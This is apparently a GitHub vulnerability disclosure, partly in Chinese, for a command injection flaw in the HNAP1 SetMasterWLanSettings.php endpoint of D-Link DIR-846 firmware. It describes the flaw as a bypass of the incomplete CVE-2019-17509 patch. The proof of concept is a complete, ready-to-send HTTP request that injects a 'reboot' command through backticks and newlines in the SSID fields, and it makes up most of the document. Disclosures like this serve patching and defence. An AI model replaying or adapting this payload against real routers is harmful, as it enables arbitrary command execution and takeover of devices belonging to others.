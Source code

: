 # DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43

link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

#### Describe

​	D-Link Router DIR-846 DIR846A1_FW100A43.bin最新版固件中的HNAP1/control/SetMasterWLanSettings.php存在命令注入漏洞。攻击者可利用该漏洞通过ssid0或ssid1参数中的shell元字符使用"\n"或者反引号绕过从而执行任意命令。

#### Detail

​	此漏洞是由于**CVE-2019-17509**未修补完善，可以在其基础上使用换行或者使用反引号进行绕过。

<img src="./img/image-20211226102113922.png" alt="image-20211226102113922" style="zoom:50%;" />

#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```



#### TEXT

​	如下数据包将导致路由器重新启动

​	<img src="./img/image-20211226102955168.png" alt="image-20211226102955168" style="zoom:50%;" />

